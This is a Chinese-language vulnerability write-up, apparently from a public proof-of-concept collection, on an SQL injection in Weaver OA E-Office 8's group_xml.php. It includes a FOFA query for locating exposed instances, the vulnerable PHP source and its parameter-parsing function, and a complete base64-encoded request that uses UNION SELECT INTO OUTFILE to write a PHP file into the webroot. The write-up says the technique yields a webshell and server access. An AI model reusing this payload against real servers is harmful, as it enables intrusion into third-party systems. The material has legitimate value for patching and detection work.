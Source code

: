 # 泛微OA E-Office group_xml.php SQL注入漏洞

## 漏洞描述

泛微OA E-Office group_xml.php文件存在SQL注入漏洞，攻击者通过漏洞可以写入Webshell文件获取服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA E-Office 8 </a-checkbox></br>

## FOFA

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383.png)

存在漏洞的文件为 **inc/group_user_list/group_xml.php**

```javascript
session_start( );
include_once( "inc/conn.php" );
include_once( "inc/xtree_xml.inc.php" );
include_once( "inc/utility_all.php" );
header( "Expires: Mon, 26 Jul 1997 05:00:00 GMT" );
header( "Cache-Control: no-cache, must-revalidate" );
header( "Pragma: no-cache" );
header( "Content-Type: text/xml" );
$pararr = explodestpar( $_REQUEST['par'] );
$groupid = $pararr['groupid'];
if ( $groupid == "" )
{
				exit( );
}
$groupurl_fix = "?";
$userurl_fix = "?";
if ( 0 < strpos( $pararr['group_url'], "?" ) )
{
				$groupurl_fix = "&";
}
if ( 0 < strpos( $pararr['user_url'], "?" ) )
{
				$userurl_fix = "&";
}
$xtreeXml = new xtreeXml( );
$xtreeXml->initXml( );
if ( $pararr['group'] == 1 )
{
				$sql = "SELECT * FROM pub_group WHERE GROUP_ID=".$groupid."";
}
else
{
				$sql = "SELECT * FROM USER,USER_GROUP WHERE USER_GROUP.GROUP_ID=".$groupid."";
}
$rs = exequery( $connection, $sql );
$row = mysql_fetch_array( $rs );
$groupmember = $row['GROUP_MEMBER'];
```

$groupid没有被双引号包裹，然后造成注入。然后$groupid来自于$pararr['groupid'];其中经过了$explodestpar这个函数

```javascript
function explodeStPar( $enpar )
{
				$depar = base64_decode( $enpar );
				$arrpar = explode( "|", $depar );
				if ( !is_array( $arrpar ) )
				{
								return false;
				}
				$i = 0;
				for ( ;	$i < sizeof( $arrpar );	++$i	)
				{
								$strpar = $arrpar[$i];
								$tmparr = explode( ":", $strpar );
								$j = 0;
								for ( ;	$j < sizeof( $tmparr );	++$j	)
								{
												if ( $j == 0 )
												{
																preg_match( "/\\[([a-z0-9-_].+)\\]/i", $tmparr[$j], $exp );
																$par = $exp[1];
												}
												else
												{
																preg_match( "/\\[(.*)\\]/i", $tmparr[$j], $exp );
																$val = $exp[1];
												}
								}
								if ( trim( $par ) != "" )
								{
												$rearr[$par] = $val;
								}
				}
				return $rearr;
}
```

构造EXP写入文件

```javascript
[group]:[1]|[groupid]:[1 union select '<?php phpinfo()?>',2,3,4,5,6,7,8 into outfile '../webroot/vulntest.php']
|
| base64
|
/inc/group_user_list/group_xml.php?par=W2dyb3VwXTpbMV18W2dyb3VwaWRdOlsxIHVuaW9uIHNlbGVjdCAnPD9waHAgcGhwaW5mbygpPz4nLDIsMyw0LDUsNiw3LDggaW50byBvdXRmaWxlICcuLi93ZWJyb290L3Z1bG50ZXN0LnBocCdd
```

![img](../../../.vuepress/public/img/1646124852775-28ff0359-2eee-4921-b752-4db7ebb49328.png)